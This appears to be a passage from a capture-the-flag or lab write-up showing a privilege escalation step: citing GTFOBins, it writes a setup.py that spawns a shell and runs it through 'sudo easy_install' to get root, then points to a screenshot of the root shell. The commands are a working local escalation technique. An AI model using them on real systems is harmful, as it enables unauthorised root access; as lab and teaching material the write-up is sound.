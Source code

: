 According to [GTFOBins]({{page.GTFOBins}}) we can use `easy_install` to escalate our privileges.

```sh
TF=$(mktemp -d)
echo "import os;os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo easy_install $TF  
```

![](/assets/updown/root-shell.png)
